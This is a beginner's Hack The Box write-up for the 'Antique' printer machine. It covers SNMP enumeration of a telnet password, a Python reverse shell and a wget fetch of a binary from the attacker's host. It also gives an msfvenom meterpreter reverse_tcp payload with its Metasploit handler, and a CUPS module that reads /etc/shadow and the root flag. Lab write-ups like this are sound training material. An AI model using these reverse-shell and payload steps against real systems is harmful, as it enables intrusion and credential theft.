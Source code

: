 # Antique

This is my write-up for the machine **Antique** located at: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

From the tags, I am able to notice that this machine is about printer exploitation on Linux:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

A basic nmap scan shows that only telnet is online:

![](<../../.gitbook/assets/image (331) (1) (1) (1) (1).png>)

Trying to telnet into the system, it asks for a password:

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I also had a deeper nmap scan running: `nmap -A -T4 -p- 10.10.11.107 -oN antique.nmap`

```
// SomeStarting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 16:13 EST
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
23/tcp    open     telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
530/tcp   filtered courier
37918/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=12/21%Time=61C2455F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.36 seconds

```

This nmap scan came back with pretty much the same information. I then viewed the walk-through to see where I had messed up. I learned about a tool called **snmpwalk**. In the walk-through, the author runs `snmpwalk -v 2c -c public 10.10.11.107`, which gets the following output:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1).png>)

I had actually had found the password for telnet on my own, but I was unable to decode it:

![](<../../.gitbook/assets/image (333) (1) (1) (1) (1) (1).png>)

I use **snmpget**, while the walk-through used **snmpwalk**. In the walk-through they used **binascii** (python import) in order to decode the bytes. I wanted to find a solution that was a bit more basic. I ended up using [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) to convert the bytes from hex to ascii:

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1) (1) (1).png>)

The password seems to be: **P@ssw0rd@123!!123** I was in!

![](<../../.gitbook/assets/image (323) (1).png>)

I then noticed the walk-through mentioned to run `exec id`. I then tried playing around with linux commands, and ended up finding the user.txt file:

![](<../../.gitbook/assets/image (325) (1).png>)

I noticed the write-up use python for the reverse shell. I then used [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to see if I can use one of their python commands. Once I changed their python command from **python** to **python3**, it worked:

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I viewed the walk-through again to see what I missed. The walk-through author runs the netstat command to see what connections are there:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1) (1).png>)

They then go on to say that we should use **chisel** to connect to the port. I ran into an issue here where I was unable to download a GitHub repository onto the machine itself. I then realize that you make the binary locally and then upload it to the server. I uploaded the file to the machine by running `python3 -m http.server` on the folder where chisel was downloaded. I was then able to upload it by running `wget http://10.10.14.10:8000/chisel` on the remote machine. When I uploaded the file, I was unable to run it due to some dependency error in terms of version of libc:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

&#x20;I then followed [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/) to see what I missed and what I could have done instead. They run `wget localhost:631`, which makes a file called **index.html** in the folder you are in. There, you can see that CUPS is mentioned:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

When we search for cups on metasploit we get the following:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1) (1) (1).png>)

We first make a shell file to upload to the server. To do this, the walk-through mentioned previously mentions `msfvenom -p linux/x64/meterpreter/reverse`_`tcp LHOST=<`_`YOUR-IP> LPORT=1337 --format elf > shell`. This will make the **shell** file in your directory. To move it to the remote machine, you can use the python http.server command mentioned previously. Before I ran the shell executable, I ran the following commands in Metasploit (based off of [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/)):

```
use exploit/multi/handler
set lhost <YOUR_IP>
set lport 1337
set payload linux/x64/meterpreter/reverse_tcp 
run
```

After I ran the **run** command, I then switched to the remote machine and ran the shell executable (run `chmod +x shell` to make it executable). This gave me a connection in Metasploit:

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I then ran the following commands to look for the cups post exploitation program:

![](<../../.gitbook/assets/image (326).png>)

I then hit run and got an output:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1) (1).png>)

Opening that file shows the output of /etc/shadow:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1) (1).png>)

Since we want to get the output of /root/root.txt, I changed my option in metasploit to that:

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1) (1).png>)

Reading that file got me the root flag:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1) (1).png>)
